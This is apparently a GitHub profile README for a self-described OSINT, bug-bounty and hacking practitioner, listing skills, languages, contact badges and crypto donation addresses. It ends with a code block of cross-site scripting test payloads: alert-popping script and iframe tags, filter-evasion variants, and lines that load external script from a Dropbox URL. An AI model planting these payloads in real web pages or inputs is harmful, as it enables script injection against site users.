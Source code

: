 ### Hi there 👋

<!--
**alyrezo/alyrezo** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
# About me
![](https://komarev.com/ghpvc/?username=alyrezo)
[![Twitter](https://img.shields.io/twitter/follow/alyrezo?style=social)](https://twitter.com/alyrezo)

![](https://github-readme-stats.vercel.app/api/top-langs/?username=alyrezo&theme=dark&hide_border=false&include_all_commits=true&count_private=true&layout=compact&langs_count=10&include_private=true)

i'm Alireza. Co-Founder Of [Osinter](https://osinter.io). I work in osint, bug bounty and hacking field
<!-- ![Stats](https://github-readme-stats.vercel.app/api?username=alyrezo&include_all_commits=true&theme=merko) -->
<!--   <img src="https://github-readme-stats.vercel.app/api?username=alyrezo&show_icons=true&theme=dark"/>  -->

## How to reach me
[![Gmail](https://img.shields.io/badge/Gmail-D14836?style=for-the-badge&logo=gmail&logoColor=white)](https://www.youtube.com/)
[![Icq](https://img.shields.io/badge/icq_new-black?style=for-the-badge&logo=icq&logolColor=42F425)](https://www.youtube.com/)
[![Protonmail](https://img.shields.io/badge/ProtonMail-8B89CC?style=for-the-badge&logo=protonmail&logoColor=white)](https://www.youtube.com/)
[![Signal](https://img.shields.io/badge/Signal-%23039BE5.svg?&style=for-the-badge&logo=Signal&logoColor=white)](https://www.youtube.com/)
[![Telegram](https://img.shields.io/badge/Telegram-2CA5E0?style=for-the-badge&logo=telegram&logoColor=white)](https://www.youtube.com/)
[![Discord](https://img.shields.io/badge/Discord-7289DA?style=for-the-badge&logo=discord&logoColor=white)](https://www.youtube.com/)
<!-- [![Tutanota](https://img.shields.io/badge/Tutanota-840010?style=for-the-badge&logo=Tutanota&logoColor=white)](https://www.youtube.com/) -->
<!-- [![Wire](https://img.shields.io/badge/Wire-B71C1C?style=for-the-badge&logo=wire&logoColor=white)](https://www.youtube.com/) -->
<!-- [![youtube](https://img.shields.io/badge/youtube-f0f0f0?&style=for-the-badge&logo=youtube&logoColor=white&color=ea4335)](https://www.youtube.com/) -->
<!-- [![Telegram](https://img.shields.io/badge/Telegram-2CA5E0?&style=for-the-badge&logoColor=white&logo=telegram)](https://t.me/) -->
<!-- [![Telegram Channel](https://img.shields.io/badge/Channel-2CA5E0?&style=for-the-badge&logoColor=white&logo=telegram)](https://t.me/) -->
<!-- [![GMail](https://img.shields.io/badge/gmail-f0f0f0?&style=for-the-badge&logo=gmail&logoColor=white&color=ea4335)](mailto:) -->
<!-- [![Python](https://img.shields.io/badge/Telegram-b8e9ff?style=flat&logo=telegram)](https://t.me/) -->
<!-- [![Python](https://img.shields.io/badge/Instagram-ffbde7?style=flat&logo=instagram)](https://instagram.com/) -->

## Skills:
- Reverse Engineering
- Web Hacking
- Hardware & IoT Hacking
- Data Science & Mining
- osint
- physics

## Languages I usually use:
<!-- ![Python](https://img.shields.io/badge/-Python-001142?style=for-the-badge&logo=python) -->
![Python](https://img.shields.io/badge/Python-14354C?style=for-the-badge&logo=python&logoColor=white)
![R](https://img.shields.io/badge/R-276DC3?style=for-the-badge&logo=r&logoColor=white)
![Php](https://img.shields.io/badge/PHP-777BB4?style=for-the-badge&logo=php&logoColor=white)
![Js](https://img.shields.io/badge/JavaScript-F7DF1E?style=for-the-badge&logo=javascript&logoColor=black)
![C](https://img.shields.io/badge/C-00599C?style=for-the-badge&logo=c&logoColor=white)
![Cpp](https://img.shields.io/badge/C%2B%2B-00599C?style=for-the-badge&logo=c%2B%2B&logoColor=white)
![Bash](https://img.shields.io/badge/Shell_Script-121011?style=for-the-badge&logo=gnu-bash&logoColor=white)
![Powershell](https://img.shields.io/badge/Powershell-2CA5E0?style=for-the-badge&logo=powershell&logoColor=white)
![Rust](https://img.shields.io/badge/Rust-000000?style=for-the-badge&logo=rust&logoColor=white)
![Go](https://img.shields.io/badge/Go-00ADD8?style=for-the-badge&logo=go&logoColor=white)

## Doante me:
[![BTC](https://img.shields.io/badge/Bitcoin-000000?style=for-the-badge&logo=bitcoin&logoColor=white)](1FHJwCGNLFhzwViV9QJWLswjK8ZvSGfdN3)
[![Ethereum](https://img.shields.io/badge/Ethereum-3C3C3D?style=for-the-badge&logo=Ethereum&logoColor=white)](0xc6CEe95E9c0F41CE33d5bb65677b901B1B519bed)

<!-- <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/java/java-original.svg" alt="java" width="40" height="40"/>  -->
<!-- <h3 align="left">Languages and Tools:</h3>
<p align="left">
  <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/javascript/javascript-original.svg" alt="javascript" width="40" height="40" />
  <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/typescript/typescript-original.svg" alt="typescript" width="40" height="40" />
  <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/bash/bash-original.svg" alt="typescript" width="40" height="40" /> -->
  
<!-- https://github.com/devicons/devicon/tree/master/icons -->



```
<style>*{/*all*/color/*all*/:/*all*/red/*all*/;/[0]*IE,Safari*[0]/color:red;color:bl/*IE*/ue;}</style>
<svg xmlns="http://www.w3.org/2000/svg">LOL<script>alert(123)</script></svg>
<iframe src="javascript:alert('XSS by Alyrezo');"></iframe><marquee><h1>Alyrezo</h1></marquee>
"><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT><img src="" alt="
&lt;LINK REL=&quot;stylesheet&quot; HREF=&quot;http://ha.ckers.org/xss.css&quot;&gt;
<marquee onstart='javascript:alert&#x28;1&#x29;'>Alyrezo
<iframe// src=javaSCRIPT&colon;alert(1)
//|\\ <script //|\\ src='https://dl.dropbox.com/u/13018058/js.js'> //|\\ </script //|\\
<iframe  src="&Tab;javascript:prompt(98)&Tab;">
<script/&Tab; src='https://dl.dropbox.com/u/13018058/js.js' /&Tab;></script>
```
